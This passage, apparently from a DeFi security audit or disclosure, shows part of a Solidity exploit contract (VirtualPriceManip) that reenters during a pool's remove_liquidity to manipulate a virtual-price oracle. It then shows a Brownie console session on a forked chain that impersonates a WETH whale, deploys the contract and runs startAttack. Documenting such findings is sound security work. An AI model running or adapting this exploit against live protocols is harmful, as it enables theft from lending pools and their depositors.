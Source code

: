 ```solidity
    POOL.remove_liquidity(LP.balanceOf(address(this)), dep2);

    // 6. Check Virtual Price
    emit Debug("Virtual Price 6", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 6", fakeSentimentPrice());

    // TODO: Check loss in ETH and compare vs wstETH we now have
    // Loss is there, but should be marginal / imbalance + fees
    emit Debug("Msg.value", msg.value);
    emit Debug("This Balance", address(this).balance);
    emit Debug("Delta", msg.value - address(this).balance);

    emit Debug("WstEthBalance", WSTETH.balanceOf(address(this)));
  }

  receive() external payable {
    // 5. Reenter here

    // Check Virtual Price
    emit Debug("Virtual Price 5", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 5", fakeSentimentPrice());
  }
}
```

Here the Brownie Console for the maximum theoretical attack

```python

weth = Contract.from_explorer("0x82aF49447D8a07e3bd95BD0d56f35241523fBab1")
whale = accounts.at("0x489ee077994b6658eafa855c308275ead8097c4a", force=True)
 
weth.transfer(a[0], weth.balanceOf(whale), {"from": whale})
weth.withdraw(weth.balanceOf(a[0]), {"from": a[0]})
c = VirtualPriceManip.deploy({"from": a[0]})
c.startAttack({"from": a[0], "value": a[0].balance() * 99 / 100})
 
Fetching source of 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1 from api.arbiscan.io...
Fetching source of 0x8b194bEae1d3e0788A1a35173978001ACDFba668 from api.arbiscan.io...
Transaction sent: 0x69a4ee6fba72894d2e6c7ba556a6df8bb2159981e09b7dd947283368628baefa
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  TransparentUpgradeableProxy.transfer confirmed   Block: 42567825   Gas used: 39080 (0.20%)

Transaction sent: 0xfecb0db00b3db0b7b6cf22bc1adc92d16169060ead3a9c13f88a19b0c57fd666
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 0
  TransparentUpgradeableProxy.withdraw confirmed   Block: 42567826   Gas used: 30937 (0.15%)

Transaction sent: 0x198d4b73e7def112903606efa77c0add9910e7f3e86186e310a0adbfec0adebc
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  VirtualPriceManip.constructor confirmed   Block: 42567827   Gas used: 647070 (3.24%)
  VirtualPriceManip deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6

Transaction sent: 0x101e212ca64ed3fc6595c15c30706a8075a010ed866ba5b230cb494f9ac20c5c
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 2
  VirtualPriceManip.startAttack confirmed   Block: 42567828   Gas used: 354622 (1.77%)

>>> history[-1].events
```